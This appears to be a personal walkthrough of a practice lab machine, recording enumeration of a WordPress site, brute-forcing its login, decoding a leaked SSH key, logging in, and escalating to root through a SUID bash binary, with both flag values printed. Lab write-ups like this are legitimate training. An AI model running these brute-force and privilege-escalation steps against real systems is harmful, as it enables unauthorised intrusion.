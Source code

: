 Machine has a wordpress site on the default web-page.

Gobuster identifies a hidden directory:

```php
gobuster dir -w /usr/share/seclists/SecLists-master/Discovery/Web-Content/common.txt -u $IP
```

/robots
- /secret.txt -> possible  id_rsa key

```php
wpscan --url http://192.168.191.89/ -e u,vp 
```
- Identifies admin user

![[IMG/Pasted image 20240927071132.png]]

I try to brute force the admin account while i look around:

```php
wpscan --url http://192.168.191.89/wp-login.php -v -P /usr/share/wordlists/rockyou.txt -U admin
```

Looking at the main web-page again, i get the username.

![[IMG/Pasted image 20240927073114.png]]

I run the secret.txt through base64 decode and get the correct format:

```php
cat temp | base64 -d > id_rsa
```

prepare the file

```php
chmod 600 id_rsa
```

ssh into the machine with the id_rsa file

```php
ssh -i id_rsa oscp@$IP
```

The first flag is in local.txt in the users home directory:
`f403addfeabc8aa0098ba6ed29b6317b`

I run a quick scan for suid files and find that bash is set which gives me an easy priv-esc to the root user.

```php
find / -perm -u=s 2>/dev/null
```

![[IMG/Pasted image 20240927074651.png]]

cat /root/proof.txt
`381069ee441bf43f60b94fe4a47a4495`

---

**Completed:** _07:47 2024-09-27_

